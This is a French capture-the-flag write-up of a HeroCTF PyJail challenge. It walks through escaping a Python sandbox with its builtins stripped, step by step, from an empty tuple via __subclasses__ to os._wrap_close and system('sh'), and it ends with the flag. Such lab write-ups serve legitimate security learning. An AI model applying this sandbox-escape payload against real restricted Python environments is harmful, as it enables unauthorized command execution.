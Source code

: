 Dernier challenge de la lignée des PyJail ! Celui là est un cran au-dessus niveau difficulté, et est en bonus dans ce CTF pour débutant :)

Grâce au code source, on peut voir que les fonctions de base de python ("builtins") sont effacées, comme que tous les modules.
```python
__builtins__ = None
modules.clear()
del modules
```
Pour faire fonctionner le programme, nous avons juste besoin des fonctions `exec`, `print` et `input` que le programme "redéfinit".
```python
exec = exec
_print = print
_raw_input = input
```
De plus, le programme limite la taille de l'input à 50 caractères, ce qui empêche l'appel à `pOpen`.
```python
exec('x='+_raw_input()[:50], d)
```
Il faut donc fouiller dans les objets de python pour espérer trouver des choses intéressantes.
- On part d'un tuple vide: `()`
- On récupère la classe tuple: `().__class__`
- On récupère la class parente de type "object": `().__class__.__base__`
- On regarde les sous class de la class mère "objet": `().__class__.__base__.__subclasses__()`

Retour : `[<class 'type'>, ..., <class 'os._wrap_close'>, ..., <class '_sitebuiltins._Helper'>]`

On récupère ainsi la classe "os._wrap_close" qui est intéressante, elle se situe en position 4 en partant de la fin, donc [-4] : 
`().__class__.__base__.__subclasses__()[-4]`

Cependant, la taille de 50 caractères nous bloque. Pour remédier à cela on peut donc stocker notre avancement dans les fonctions builtins.
```python
__builtins__['a']=().__class__.__base__
__builtins__['b']=__builtins__['a'].__subclasses__
__builtins__['c']=__builtins__['b']()[-4]
```
`__builtins__['c']` contient donc la classe `os._wrap_close` qui va nous permettre d'exécuter des commandes avec la fonction `system`.
On initialise la classe `os._wrap_close` : `__builtins__['d']=__builtins__['c'].__init__`

On exécute la fonction system avec paramètre `sh` : `__builtins__['d'].__globals__['system']('sh')`

On a enfin un shell (en partant d'un tuple vide, et oui) !
```bash
$ cat god_flag.txt
HeroCTF{0k_y0ur_4_g0d_0f_pyth0n}
```
HeroCTF{0k_y0ur_4_g0d_0f_pyth0n}
